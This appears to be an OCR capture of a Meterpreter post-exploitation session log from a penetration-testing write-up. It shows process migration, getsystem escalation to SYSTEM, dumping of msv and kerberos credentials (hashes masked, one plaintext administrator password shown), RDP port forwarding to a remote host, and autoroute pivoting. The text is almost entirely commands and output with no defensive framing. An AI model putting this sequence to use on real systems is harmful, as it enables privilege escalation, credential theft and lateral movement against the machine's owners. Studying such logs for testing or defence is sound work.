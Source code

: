 ```bash
meterpreter > migrate 2128
[*] Migrating from 3104 to 2128...
[*] Migration completed successfully. meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM meterpreter > msv
```

```bash
[+] Running as SYSTEM
[*] Retrieving msv credentials msv credentials

===============

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;109205 NTLM xxxxxxxxxxxx Administrator lm{ xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;996 Negotiate NT AUTHORITY NETWORK SERVICE lm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;997 Negotiate NT AUTHORITY LOCAL SERVICE n.s. (Credentials KO)
0;54469 NTLM n.s. (Credentials KO)
0;999 NTLM WORKGROUP xxxxxxxxxxxx\$ n.s. (Credentials KO)
```

```bash
meterpreter > kerberos [+] Running as SYSTEM

[*] Retrieving kerberos credentials kerberos credentials

====================

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;996 Negotiate NT AUTHORITY NETWORK SERVICE
0;997 Negotiate NT AUTHORITY LOCAL SERVICE
0;54469 NTLM
0;999 NTLM WORKGROUP xxxxxxxxxxxx$
0;109205 NTLM xxxxxxxxxxxx Administrator 123456

meterpreter > portfwd add -l 3389 -r x.x.x.x -p 3389 #IP已做处理
[*] Local TCP relay created: :3389 <-> x.x.x.x:3389
meterpreter > portfwd

Active Port Forwards 

====================
Index Local Remote Direction
----- ----- ------ ---------
1 0.0.0.0:3389 x.x.x.x:3389 Forward
1 total active port forwards.

root@xxxx:/# rdesktop 127.0.0.1:3389 Autoselected keyboard map en-us
Failed to negotiate protocol, retrying with plain RDP.
WARNING: Remote desktop does not support colour depth 24; falling back to 16

meterpreter > run autoroute -h

[*] Usage: run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*] run autoroute -s 10.1.1.0 -n 255.255.255.0 # Add a route to
10.10.10.1/255.255.255.0
```